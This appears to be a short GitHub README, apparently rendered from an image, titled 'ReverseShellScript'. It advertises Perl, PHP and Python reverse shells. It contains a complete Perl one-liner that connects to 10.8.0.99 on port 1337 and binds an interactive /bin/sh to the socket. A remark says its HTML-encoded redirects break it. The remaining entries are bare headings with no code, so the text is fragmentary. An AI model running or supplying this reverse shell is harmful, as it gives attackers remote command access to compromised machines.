 # ReverseShellScript (Not mine script)
Reverse Shell script : PERL , PHP , PYTHON
___

ReverseShell.pl
```>&S``` is the correct command to redirect data to socket ```S```.
```php
perl -e 'use Socket;$i="10.8.0.99";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
```

ReverseShell2.pl
```&gt;&amp;S``` is an encoded format that does not work in Perl or shell. (Its output will be sent out in HTML tags.)

ReverseShell3.pl
for BIND ReverseShell ;)

